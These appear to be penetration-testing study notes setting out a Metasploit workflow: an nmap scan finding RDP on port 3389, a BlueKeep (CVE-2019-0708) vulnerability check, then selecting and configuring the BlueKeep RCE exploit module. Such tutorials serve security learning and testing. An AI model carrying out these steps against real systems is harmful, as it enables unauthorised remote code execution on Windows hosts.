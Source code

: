 ### Typical workflow

1. Identify service that is running

_**Eg**_. `RDP` service on port **3389**

```bash
$ sudo nmap ...

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
...
```

2. Search (`search` command) for auxiliary module (eg. scanner) and select using the `use` command

```bash
msf6 > search type:auxiliary scanner/rdp
0  auxiliary/scanner/rdp/cve_2019_0708_bluekeep  2019-05-14       normal  Yes    CVE-2019-0708 BlueKeep Microsoft Remote Desktop RCE Check
...

msf6 > use 0
```

3. View information about the module using the `info` or `show options` command: identify required parameters and `set` the values: rhosts, etc.

```bash
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > info
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts ...
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set ...
```

4. Run auxiliary module to discover if target system is vulnerable (`run`/`exploit` command)

Suppose the system is vulnerable to the particular vulnerability

```bash
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
... SYSTEM IS VULNERABLE TO ... bluekeep ....
```

5. Search (`search` command) for related exploit and select using the `use` command

```bash
msf6 > search type:exploit bluekeep
 0  exploit/windows/rdp/cve_2019_0708_bluekeep_rce    2019-05-14 ...
 
msf6 > use 0
```

6. Read information about the exploit using the `info`or`show options` command: identify required parameters and set the values

```bash
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > info
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts ...
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set ...
```
